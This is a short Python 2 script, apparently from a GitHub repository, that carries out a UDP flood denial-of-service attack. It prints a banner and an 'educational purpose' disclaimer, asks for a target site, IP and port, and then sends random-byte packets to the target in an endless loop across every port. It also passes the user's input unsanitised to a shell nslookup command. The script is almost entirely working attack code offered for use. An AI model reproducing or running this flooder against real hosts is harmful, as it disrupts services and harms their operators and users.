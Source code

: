 # ddos-attack
import sys
import os
import time
import socket
import string
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############
os.system("clear") 

print("""\033[1;31m  \033[92m

  ___  ___   ___  ___     _ _____ _____ _   ___ _  __ 
 |   \|   \ / _ \/ __|   /_\_   _|_   _/_\ / __| |/ / 
 | |) | |) | (_) \__ \  / _ \| |   | |/ _ \ (__| ' <  
 |___/|___/ \___/|___/ /_/ \_\_|   |_/_/ \_\___|_|\_\ 
                                                      
 
              Script By     =>  sneyzer 
              instagram     =>  _.h4ckers 
              github        =>  sneyzer 
============================================================
""")

print( """\033[94m ONLY FOR EDUCATIONAL PURPOSE   \033[97m   """)
web = raw_input (" Target website   : ")
os.system("nslookup %s  " % (web )
print 
ip = raw_input("\033[94m[*] \033[91mIP \033[91mTarget \033[97m>>> \033[93m ")
port = input("\033[94m[*] \033[91mPORT \033[97m>>> \033[93m ")

os.system("clear")
print(" HWV-DDoS ready to Attack.. OK!! ")
print(" 8======D     15% ") 
time.sleep(2)
print(" 8=============D      25% ") 
time.sleep(3)
print(" 8====================D       50% ") 
time.sleep(4)
print(" 8=============================D        75% ") 
time.sleep(5)
print(" 8=====================================D     100% ") 
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1 
